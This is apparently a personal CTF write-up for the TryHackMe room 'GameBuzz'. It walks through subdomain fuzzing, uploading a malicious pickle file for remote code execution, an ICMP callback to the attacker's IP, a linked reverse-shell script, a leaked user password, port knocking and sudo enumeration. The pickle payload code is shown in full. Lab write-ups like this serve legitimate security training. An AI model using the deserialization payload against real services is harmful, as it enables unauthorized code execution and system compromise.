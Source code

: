 <h3> GameBuzz TryHackMe </h3>

Difficulty = Hard

Nmap Scan:
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2b8867ef-56a0-43e5-860d-f2453459c873)

Going over to the web server shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/72c13526-255a-4bc4-ae0b-8d729902260d)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/358c80bb-9bcd-49ff-9d4d-d22e05cf18b7)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/57414644-72f7-45a4-8ba3-b3ba4eb2e751)

Noticing the email *admin@incognito.com* we can deduct that the domain name is *incognito.com*

I'll add that to my */etc/hosts* file

Now poking around this web app i saw the *Game Rating* function
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/35f31582-8204-4839-a88f-ee25889b5252)

When you click it and then click game 1 with a proxy on this is what I got
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/73392813-ef46-4ce4-98e4-add3c1cfbfc9)

```json
{"object":"/var/upload/games/object.pkl"}
```

We can see that it's loading the object pickled file 🤔

Let's keep this in mind!

Now for more enumeration since we have the domain lets fuzz for sub domains 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a6783ee6-458f-4c0c-a655-c34d945fe539)

I got *dev* so i'll update my */etc/hosts* file with the new subdomain *dev.incognito.com*

Going over to the newly founded subdomain shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/406ca395-c76f-41f1-b11a-b2948a14d85a)

Checking */robots.txt* shows */secret*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2b6d8c8c-0285-4aec-bd2b-13f7bc04f112)

But after navigating to */secret* gives 403 forbidden
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/add9bbf8-6807-4155-ae7d-659b2488e247)

So I fuzzed for files there and got */upload*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/c1966332-64c8-4382-8ed7-75c9343d5055)

Moving there shows an upload form 

Now this is good cause remember from the main domain we can call any pickled file and since we are opportuned to upload any file lets upload a pickle file

I made a script to make icmp callback to my host

```python
#!/usr/bin/python3
# Author: Hack.You
import os
import pickle

class Shell(object):
    def __reduce__(self):
        cmd = 'ping -c 5 10.2.42.156'
        return (os.system, (cmd,))

pickledData = pickle.dumps(Shell())
with open('payload.pkl', 'wb') as f:
    f.write(pickledData)

```

Running it creates the pickle file 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/3d67b081-9fbf-44dd-92bf-e90fb55d9253)

Now let upload the serialized payload
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/edb33e1e-ad19-4e34-b60f-101383fcac10)

I already setup *tcpdump* listening for icmp connection 

```bash
sudo tcpdump -i tun0 icmp
```

Since the file is already uploaded we can call it via the fetch endpoint on the main domain
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9419975b-ed4c-4d53-9eb0-cec23cc454d6)

```json
{"object":"/var/upload/payload.pkl"}
```

Back on tcpdump we get a hit 😄
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/8a0bdbe0-d147-4350-a9f5-de65e9ad368f)

Now lets get shell. Here's my payload [script](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/thm/GameBuzz/pickle.py)

After running it and uploading it then using the fetch endpoint to load the pickle data I got shell
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/7ee6d51c-1040-4c2d-be89-184992a40d11)

Let do some privilege escalation 

Running linpeas shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f9e7b38c-e18f-46e5-afd3-12d59976714e)

Viewing the file gives the password for user dev1 as *dc647eb65e6711e155375218212b3964*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/b23adc48-ccec-49a1-b591-44f805c2e430)

But we can't switch to the user from the box so we need to login to ssh

But no ssh port is open

From the hint we are to do port knocking for we to get access to the ssh service

Looking at the knock config file shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/8f9969a0-aaa0-4b25-ad6e-de2de82580c6)

This means we're to knock the followng ports *[5020,6120,7340]* for ssh to be open

Luckily there's an open source tool on kali that can easily do this for us
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a42f9b32-9a61-4c67-9722-ee7a508a6f37)

Now that ssh is open let us login as dev1
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e766b550-f2ef-471e-b284-70fee8cfba5a)

Checking *sudo -l* shows we can run as *root* on */etc/init.d/knockd*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/4cad41e1-c3db-484b-bdd2-ec0e5dd73d8e)

